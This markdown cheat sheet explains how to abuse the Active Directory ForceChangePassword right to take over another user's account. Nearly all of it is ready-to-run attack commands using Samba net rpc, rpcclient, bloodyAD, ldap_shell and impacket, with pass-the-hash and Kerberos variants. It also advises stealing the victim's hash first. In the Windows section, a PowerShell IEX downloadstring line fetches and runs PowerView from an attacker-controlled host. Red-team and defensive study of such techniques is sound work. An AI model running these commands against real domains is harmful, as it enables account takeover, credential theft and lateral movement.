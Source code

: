 # Abusing ForceChangePassword

If an user have ForceChangePassword over another user can change that user password. If you have other options to steal the hash from that user, I strongly recommend you to do it before change their password. That hash could be valid for other users if password is reused. 

### From Linux (enternally recomended):

Samba tools -> `net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'<password>' -S '<dc_ip>'`

rpcclient -> `-U <domain>/<controlled_user> <dc-ip>`

`rpcclient $> setuserinfo <target_user> 23 <new_password>`

BloodyAD -> `bloodyAD --host 'dc_ip' -d '<domain>' -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

Using SMB protocol.
 - In case LDAP is not an option you can still abuse ForceChangePassword over SMB protocol using impacket tools:

`changepasswd.py <domain>/<target_user>@<ip> -newpass <new_password> -altuser <domain>/<controlled_user> -altpass <controlled_user_password> -reset`

Note: use 'impacket-changepasswd' for kali, and 'changepasswd.py' from normal UNIX/LINUX machines.

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' set password '<target_user>' '<new_password>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

With KERBEROS auth:

BloodyAD -> `bloodyAD -k --host <machine.domain> -d <domain> -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

<br>

### From Windows (internally):

If your user have enought rights (like GenericAll, for example) you can try to change the password directly.

`net user <target user> <new password>`

If not allowed try with the following method:

Load powerview -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`$NewPassword = ConvertTo-SecureString '<new_password>' -AsPlainText -Force`

`Set-DomainUserPassword -Identity '<target_user>' -AccountPassword $NewPassword`



### Articles:

https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/

https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
